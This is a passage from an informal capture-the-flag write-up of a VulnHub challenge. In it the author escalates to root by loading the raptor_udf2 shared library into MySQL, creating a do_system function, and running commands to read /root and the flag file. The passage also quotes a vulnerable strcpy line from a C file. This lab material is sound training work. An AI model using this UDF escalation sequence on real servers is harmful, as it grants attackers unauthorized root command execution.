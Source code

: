 there was a mistake in the code comments that we should use -w1 although it should be wl..
and so i logged in

>mysql -uroot -p


>mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
mysql> select do_system('ls /root/ > /tmp/set; chmod 777 /tmp/set');
mysql> \! cat /tmp/out
mysql> select do_system('cat /root/Flag.txt > /tmp/set; chmod 777 /tmp/set');
mysql> \! cat /tmp/out

after all that i managed to get this

[![pr](https://trickster0.files.wordpress.com/2015/10/pr.png)](https://trickster0.files.wordpress.com/2015/10/pr.png)
BOOM WE GOT THE FLAG!!!
but as u can see i saw some interesting files in the root directory!!!! so lets see the bonus!! first of all that damn switcher.py!!

[![sw](https://trickster0.files.wordpress.com/2015/10/sw.png)](https://trickster0.files.wordpress.com/2015/10/sw.png)
there it is...
lets see the buf.c and the other.c file

[![buf](https://trickster0.files.wordpress.com/2015/10/buf.png)](https://trickster0.files.wordpress.com/2015/10/buf.png)
buf.c which was vulnerable cause hello...

>strcpy(buff, argv[1]);


[![fine](https://trickster0.files.wordpress.com/2015/10/fine.png)](https://trickster0.files.wordpress.com/2015/10/fine.png)
the other.c was fine...

so that is it thx a lot for this great challenge and for a good practise on my endless journey to hacking. thx a lot kooksec and thx vulnhub for hosting those great challenges they really teach us a lot!
